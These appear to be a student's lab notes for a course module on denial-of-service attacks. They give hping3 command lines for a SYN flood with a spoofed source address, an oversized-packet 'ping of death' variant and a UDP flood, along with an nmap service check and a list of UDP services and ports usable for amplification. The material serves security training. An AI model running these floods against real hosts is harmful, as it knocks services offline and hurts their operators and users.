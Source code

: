 # 10 - DoS

## Module 10 - Denial-of-Service

### **Lab1 - Task2: Perform a DoS Attack on a Target Host using hping3**

* **Target:**
  * Wireshark-\&gt;Ethernet
* **Attacker**
  * **hping3 -S \<Target IP> -a \<Spoofable IP> -p 22 -flood**
    * **-S: Set the SYN flag**
    * **-a: Spoof the IP address**
    * **-p: Specify the destination port**
    * **--flood: Send a huge number of packets**
* **Target**
  * Check wireshark
* **Attacker (Perform PoD)**
  * **hping3 -d 65538 -S -p 21 –flood \<Target IP>**
    * **-d: Specify data size**
    * **-S: Set the SYN flag**
* **Attacker (Perform UDP application layer flood attack)**
  * nmap -p 139 10.10.10.19 (check service)
  * **hping3 -2 -p 139 –flood \<Target IP>**
    * **-2: Specify UDP mode**
* **Other UDP-based applications and their ports**
  * CharGen UDP Port 19
  * SNMPv2 UDP Port 161
  * QOTD UDP Port 17
  * RPC UDP Port 135
  * SSDP UDP Port 1900
  * CLDAP UDP Port 389
  * TFTP UDP Port 69
  * NetBIOS UDP Port 137,138,139
  * NTP UDP Port 123
  * Quake Network Protocol UDP Port 26000
  * VoIP UDP Port 5060
